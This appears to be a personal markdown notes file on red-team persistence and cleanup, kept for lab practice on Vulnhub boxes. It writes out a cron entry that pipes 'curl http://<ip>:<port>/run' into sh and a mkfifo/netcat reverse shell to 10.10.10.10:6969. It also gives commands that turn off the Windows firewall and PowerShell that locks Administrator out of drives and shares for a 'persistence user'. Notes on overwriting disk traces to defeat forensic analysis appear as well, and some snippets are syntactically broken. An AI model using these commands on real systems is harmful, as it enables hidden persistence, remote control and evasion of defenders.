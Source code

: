 
Cleaning up in a more professional manner and a too professional manner
Windows/Linux - Go?

- try arbituarly write data to disk over all locations of where the ADDecrypt.zip, ADDecrypt and its contents are stored as data for OS record keeping and the disk and how as DFIR would you counter that if you could hold any VMs or Live system in a suspended state or have a holographic file system where there is session layer of previous session and current session for dynamic analysis in Malware Analysis. 

TrustedSec Tool Lab
https://github.com/trustedsec/social-engineer-toolkit
Unicorn - https://github.com/trustedsec/unicorn

- https://github.com/trustedsec/trevorc2
- https://github.com/trustedsec/ptf
- https://github.com/trustedsec/hate_crack

Seatbelt compile and used

Host Vulnhub box and do both Red and Blue Teaming 

Smbmaze
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 10MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```



Firewall fun
```powershell
# Check Profile
netsh advfirewall show currentprofile

# Turn off the Firewall
NetSh Advfirewall set allprofiles state off

# Modify a Firewall Rule for a program
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=in enable=yes action=allow profile=Private
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=out enable=yes action=allow profile=Private
# Delete a rule
netsh.exe advfirewall firewall delete rule "<Rule Name>"_
```
[test](https://www.itninja.com/blog/view/how-to-add-firewall-rules-using-netsh-exe-advanced-way)


```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block 
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action"

```

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow
```


- Cron Persistence updating, fixing, trick research
```bash

 crontab -e


CT=$(crontab -l)
CT=$CT('\n* * * * *   root    curl http://<ip>:<port>/run | sh')
' /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 10.10.10.10 6969 >/tmp/f'

printf "$CT" | cronbtab -
```

cron, setuid bash, alias

nobody account has bash

Systemd persistence
https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8




- Enabling RDP with cme and impacket kerboros tickets 
	- Harden and or implement AMSI with powershell 
- Create an alert based on .exe and .ps1 from PowerUP, Winpeas 
- Remote interaction with box that would no lead to compromise
- Open RDP for a new user to use Sysmon, ProcMon
- Get Sysinternals on box

https://github.com/dubs3c/sudo_sniff/blob/master/sudo_sniff.c
